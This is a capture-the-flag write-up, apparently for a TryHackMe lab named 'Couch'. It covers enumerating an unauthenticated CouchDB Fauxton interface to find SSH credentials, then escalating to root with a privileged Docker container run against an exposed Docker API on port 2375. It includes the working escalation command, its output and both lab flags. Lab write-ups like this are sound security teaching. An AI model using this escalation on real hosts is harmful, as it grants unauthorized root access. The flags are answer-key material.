

# Couch

---



---

# Enumeration


Research about `couchdb` and you will find official document at [https://docs.couchdb.org/en/stable/intro/tour.html](https://docs.couchdb.org/en/stable/intro/tour.html) → Then, there are 2 main paths of **************Fauxton************** (the built-in administration interface - provide full access to CouchDB’s features)

```json
"_utils": Welcome Page
"_all_dbs": List of Databases

```

# Exploit

Navigate to `/_utils`


Loop through the databases listed in the table → I found the `secret` database contains the credential used for `ssh` connection


# Gain Access

`SSH` to the target machine and login with the previous cred


You will find the `user.txt` file and get the user flag

```tsx
atena@ubuntu:~$ ls -l
total 4
-rw-rw-r-- 1 atena atena 22 Dec 18  2020 user.txt
atena@ubuntu:~$ cat user.txt
THM{1ns3cure_couchdb}
```

# Privilege Escalation → root

I had tried `sudo -l` and `cat /etc/crontab` but it was not really helpful

```tsx
atena@ubuntu:~$ sudo -l
[sudo] password for atena: 
Sorry, user atena may not run sudo on ubuntu.
```

```tsx
atena@ubuntu:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

I listed all the files and directories (including hidden) inside the current directory (`/home/atena`) and found the `.bash_history`

```json
atena@ubuntu:~$ ls -la
total 48
drwxr-xr-x 6 atena atena 4096 Dec 18  2020 .
drwxr-xr-x 3 root  root  4096 Oct 24  2020 ..
-rw------- 1 atena atena 3171 Dec 18  2020 .bash_history
-rw-r--r-- 1 atena atena  220 Oct 24  2020 .bash_logout
-rw-r--r-- 1 atena atena 3771 Oct 24  2020 .bashrc
drwxr-xr-x 3 root  root  4096 Oct 24  2020 .bundle
drwx------ 2 atena atena 4096 Oct 24  2020 .cache
drwx------ 2 root  root  4096 Oct 24  2020 .gnupg
drwxrwxr-x 2 atena atena 4096 Dec 18  2020 .nano
-rw-r--r-- 1 atena atena  655 Oct 24  2020 .profile
-rw-r--r-- 1 atena atena    0 Oct 24  2020 .sudo_as_admin_successful
-rw-rw-r-- 1 atena atena   22 Dec 18  2020 user.txt
-rw-r--r-- 1 root  root   183 Oct 24  2020 .wget-hsts
```

Because the size of the file is not 0 (means empty file) → I used `cat` to read it and found a interested line at the end of file

```tsx
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
```

Use `netstat` to check whether the `docker` service is running

```tsx
atena@ubuntu:~$ netstat -atln
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:5984            0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:2375          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:39277         0.0.0.0:*               LISTEN     
tcp        0    316 10.10.166.47:22         10.8.97.213:57486       ESTABLISHED
tcp6       0      0 :::22                   :::*                    LISTEN
```

Yes it is! Use the command which was executed in the `.bash_history` to figure out where would it bring us to

```tsx
atena@ubuntu:~$ docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
/ # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

Surprisingly, I became root user → Find the file which contain the flag and get it

```tsx
/ # find / -name "root.txt"
/mnt/root/root.txt
/mnt/root # cd /mnt/root
/mnt/root # ls -l
total 4
-rw-r--r--    1 root     root            26 Dec 18  2020 root.txt
/mnt/root # cat root.txt
THM{RCE_us1ng_Docker_API}
```